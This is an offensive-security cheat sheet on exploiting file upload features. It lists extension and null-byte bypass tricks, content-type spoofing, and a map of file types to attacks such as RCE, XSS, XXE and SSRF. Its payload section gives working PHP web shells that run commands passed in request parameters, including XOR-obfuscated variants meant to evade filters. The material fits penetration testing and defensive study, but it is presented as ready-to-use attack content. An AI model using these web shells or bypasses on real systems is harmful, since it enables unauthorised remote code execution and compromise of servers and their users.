 
### **File Upload Vulnerabilities and Exploitation**

---

#### **1. File Extension Bypass**
- **Blacklisted Extensions**:  
  - PHP: `.phtm`, `.phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`  
  - ASP: `.asp`, `.aspx`, `.cer`, `.asa`  
  - JSP: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`  
  - ColdFusion: `.cfm`, `.cfml`, `.cfc`, `.dbm`  
  - Random capitalization: `.pHp`, `.pHP5`, `.PhAr`  

- **Whitelisted Extensions**:  
  - Double extensions: `file.jpg.php`, `file.php.jpg`  
  - Null byte injection: `file.php%00.jpg`, `file.php\x00.jpg`  
  - Trailing characters: `file.php.....`, `file.php/`, `file.php.\`  
  - Other tricks: `file.php%20`, `file.php%0d%0a.jpg`, `file.`, `.html`  

- **IIS (Windows)**: Upload `.asp` files using `.cer` or `.asa` extensions.  

---

#### **2. Payloads for File Upload**
- **PHP Web Shells**:  
  ```php
  <?php system($_GET["cmd"]);?>  // Usage: ?cmd=ls
  <?=`$_GET[0]`?>                // Usage: ?0=command
  <?=`$_POST[0]`?>               // Usage: POST with "0=command"
  <?=`{$_REQUEST['_']}`?>        // Usage: ?_=command or POST with "_=command"
  ```
- **Obfuscated PHP Payloads**:  
  ```php
  <?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`;?>
  <?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
  ```

---

#### **3. Content-Type Manipulation**
- **Preserve filename but change content-type**:  
  - Use `Content-Type: image/jpeg`, `image/gif`, or `image/png` for malicious files.  

---

#### **4. Impact by File Extension**
- **Web Shell/RCE**: `.asp`, `.aspx`, `.php5`, `.php`, `.php3`  
- **Stored XSS/SSRF/XXE**: `.svg`, `.gif`  
- **CSV Injection**: `.csv`  
- **XXE**: `.xml`  
- **LFI/SSRF**: `.avi`  
- **HTML Injection/XSS**: `.html`, `.js`  
- **Pixel Flood Attack (DoS)**: `.png`, `.jpeg`  
- **RCE via LFI/DoS**: `.zip`  
- **SSRF/Blind XXE**: `.pdf`, `.pptx`  

---